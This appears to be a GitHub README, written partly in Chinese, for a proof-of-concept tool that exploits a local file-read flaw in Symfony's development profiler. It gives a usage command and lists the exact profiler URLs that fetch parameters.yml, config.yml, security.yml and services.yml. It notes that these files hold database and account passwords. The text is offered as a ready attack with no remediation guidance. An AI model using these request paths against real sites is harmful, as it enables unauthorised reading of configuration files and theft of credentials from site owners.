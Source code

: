 # InfoLeak-Symfony
InfoLeak-Symfony
usage:
python3 poc.py http://xxxx.xx
这是Symfony框架的一个文件读取
Symfony为web框架，该漏洞为本地文件读取，可读取Symfony框架下的任意文件（非系统文件）。利用该漏洞可读取Symfony配置文件

靶标位置为: https://xxx/app_dev.php/_profiler/open?file=app/config/parameters.yml   #database所在地
该文件为Symfony的配置文件，含有各类的账号密码。
其他配置文件有：
https://xxx/app_dev.php/_profiler/                # 面板
https://xxx/app_dev.php/_profiler/open?file=app/config/config.yml                # 其他配置信息
https://xxx/app_dev.php/_profiler/open?file=app/config/security.yml        # 其他配置信息
https://xxx/app_dev.php/_profiler/open?file=app/config/services.yml        # 其他配置信息
